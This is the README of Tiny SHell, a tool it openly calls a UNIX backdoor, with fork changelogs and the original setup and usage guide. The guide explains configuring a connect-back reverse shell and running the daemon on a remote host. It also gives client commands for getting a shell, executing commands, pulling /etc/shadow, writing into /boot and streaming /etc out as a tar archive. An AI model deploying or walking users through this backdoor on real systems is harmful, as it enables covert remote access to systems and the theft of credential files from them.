 ## Tiny SHell - An open-source UNIX backdoor, written by Christophe Devine

### https://github.com/mzpqnxow/tsh fork

This is a fork of the fork by creaktive with a focus on portability and convenience

  * Restored the portability feature of defaulting to /bin/sh (busybox, AIX, HP-UX, IRIX, many Solaris need this)
  * Added simple way to avoid using a login shell at all (via ```MINIMAL=1 ./tsh```)
  * Added a way to explicitly specify Bash if you really want to (via ```BASH=1 ./tsh```)
  * Since creaktive's default of using /bin/bash was removed in my fork, it caused Debian derived systems to break since dash doesn't handle --login, fixed using /bin/sh -l (via ```DASH=1 ./tsh```)

#### TODO
  * Add a collection of statically built (w/musl libc) executables for MIPS and ARM variants
  * Add a simple tool to hotpatch the passphrase into the binaries


### https://github.com/creaktive/tsh fork
  * Added iPhone buildability and a usage function
  * Redid the Makefile
  * Upgraded the ciphers
  * Maybe some other stuff?

### Original tsh version 0.6

```
                 Tiny SHell - An open-source UNIX backdoor


    Before compiling Tiny SHell

        1. First of all, you should setup your secret key, which
           is located in tsh.h; the key can be of any length (use
           at least 12 characters for better security).

        2. It is advised to change SERVER_PORT, the port on which
           the server will be listening for incoming connections.

        3. You may want to start tshd in "connect-back" mode if
           it runs on on a firewalled box; simply uncomment and
           modify CONNECT_BACK_HOST in tsh.h.

    * Compiling Tiny SHell

        Run "make <system>", where <system> can be any one of these:
        linux, freebsd, openbsd, netbsd, cygwin, sunos, irix, hpux, osf

    * How to use the server

        It can be useful to set $HOME and the file creation mask
        before starting the server:

            % umask 077; HOME=/var/tmp ./tshd

    * How to use the client

        Make sure tshd is running on the remote host. You can:

        - start a shell:

            ./tsh <hostname>

        - execute a command:

            ./tsh <hostname> "uname -a"

        - transfer files:

            ./tsh <hostname> get /etc/shadow .
            ./tsh <hostname> put vmlinuz /boot

        Note: if the server runs in connect-back mode, replace
        the remote machine hostname with "cb".

    * About multiple file transfers

        At the moment, Tiny SHell does not support scp-like multiple
        and/or recursive file transfers. You can work around this bug
        by simply making a tar archive and transferring it. Example:

        ./tsh host "stty raw; tar -cf - /etc 2>/dev/null" | tar -xvf -

    * About terminal modes

        On some brain-dead systems (actually, IRIX and HP-UX), Ctrl-C
        and other control keys do not work correctly. Fix it with:

            % stty intr "^C" erase "^H" eof "^D" susp "^Z" kill "^U"

    * About security

        Please remember that the secret key is stored in clear inside
        both tsh and tshd executables; therefore you should make sure
        that no one except you has read access to these two files.
        However, you may choose not to store the real (valid) key in
        the client, which will then ask for a password when it starts.
```
